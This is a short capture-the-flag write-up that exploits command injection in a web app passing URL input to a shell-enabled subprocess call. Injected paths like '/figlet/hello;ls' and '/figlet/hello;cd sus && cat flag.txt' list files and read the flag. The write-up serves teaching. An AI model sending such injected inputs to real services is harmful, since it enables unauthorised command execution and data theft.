 Looking at the source code, we see that the figlet command is run via:
`subprocess.run(command, shell=True, ...)`
Because `shell=True`, the command is executed through a shell, which makes it vulnerable to command injection. To exploit this, the attacker can escape the `figlet` command using a semicolon (`;`).
Navigating to `/figlet/hello;ls`, we get the following output:

```
 _          _ _
| |__   ___| | | ___
| '_ \ / _ \ | |/ _ \
| | | |  __/ | | (_) |
|_| |_|\___|_|_|\___/

app.py
requirements.txt
templates
sus
```

The suspicious folder `sus` likely contains the flag. Trying `/figlet/hello;ls sus` confirms it.
Finally, we can extract the flag by navigating to:
`/figlet/hello;cd sus && cat flag.txt`
